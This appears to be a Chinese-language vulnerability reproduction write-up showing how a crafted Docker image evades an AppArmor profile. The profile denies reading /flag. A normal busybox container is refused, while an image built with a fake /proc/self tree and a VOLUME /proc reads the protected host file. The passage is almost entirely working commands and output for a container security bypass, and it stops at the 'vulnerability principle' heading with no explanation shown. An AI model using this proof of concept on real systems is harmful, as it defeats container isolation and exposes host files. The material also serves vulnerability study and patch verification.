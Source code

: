 ```bash
cat > /etc/apparmor.d/no_flag <<EOF
#include <tunables/global>

profile no_flag flags=(attach_disconnected,mediate_deleted) {
  #include <abstractions/base>
  file,
  deny /flag r,
}
EOF
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666172235446-ddd104b0-1388-49d8-9a48-11a651679ee7.png#averageHue=%23252d39&clientId=u805561fc-2ca3-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=223&id=u21c98f5e&margin=%5Bobject%20Object%5D&name=image.png&originHeight=334&originWidth=568&originalType=binary&ratio=1&rotation=0&showTitle=false&size=92183&status=error&style=none&taskId=u76809caf-50eb-4ef3-87dc-265a8922015&title=&width=378.6666666666667)
应用规则
```bash
/sbin/apparmor_parser --replace --write-cache /etc/apparmor.d/no_flag 
```
宿主机创建/tmp/flag/1.txt文件
```bash
cd /tmp
echo success > flag
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666232523661-a7eb998e-0592-413c-834d-71cc307bdf18.png#averageHue=%23272f3d&clientId=u06ae1e32-9728-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=97&id=u1d305cab&margin=%5Bobject%20Object%5D&name=image.png&originHeight=146&originWidth=666&originalType=binary&ratio=1&rotation=0&showTitle=false&size=52274&status=error&style=none&taskId=uc8a03ac1-0391-4c45-a804-673aed58486&title=&width=444)
启动一个正常镜像，无权限读取/flag内容
```bash
docker run --rm --security-opt "apparmor=no_flag" -v /tmp/flag:/flag busybox cat /flag

# output:
cat: can't open '/flag': Permission denied 
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666232619356-f0ff7751-fc27-478e-932b-0f9f5d9df9b2.png#averageHue=%23262f3c&clientId=u06ae1e32-9728-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=39&id=u10347246&margin=%5Bobject%20Object%5D&name=image.png&originHeight=58&originWidth=820&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24935&status=error&style=none&taskId=u9684a387-ce55-4b6a-bddf-b36a7763fde&title=&width=546.6666666666666)
利用漏洞启用一个恶意镜像，可以读取/flag
```bash
mkdir -p rootfs/proc/self/{attr,fd}
touch rootfs/proc/self/{status,attr/exec}
touch rootfs/proc/self/fd/{4,5}
cat <<EOF > Dockerfile 
FROM busybox 
ADD rootfs / 
VOLUME /proc 
EOF 


docker build -t apparmor-bypass . 
```
逃逸成功，成功读取宿主机文件
```bash
docker run --rm --security-opt "apparmor=no_flag" -v /tmp/flag:/flag apparmor-bypass cat /flag

# output
success
docker: Error response from daemon: cannot start a stopped process: unknown.
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666232920371-0bb70aaf-b76b-4db2-81d3-94cb8e2f5f59.png#averageHue=%23252e3b&clientId=u06ae1e32-9728-4&crop=0&crop=0&crop=1&crop=0.9916&errorMessage=unknown%20error&from=paste&height=239&id=u981595b9&margin=%5Bobject%20Object%5D&name=image.png&originHeight=358&originWidth=825&originalType=binary&ratio=1&rotation=0&showTitle=false&size=148485&status=error&style=none&taskId=u691a5b4c-cc7f-4c85-877a-89b7e004bbc&title=&width=550)
### 漏洞原理
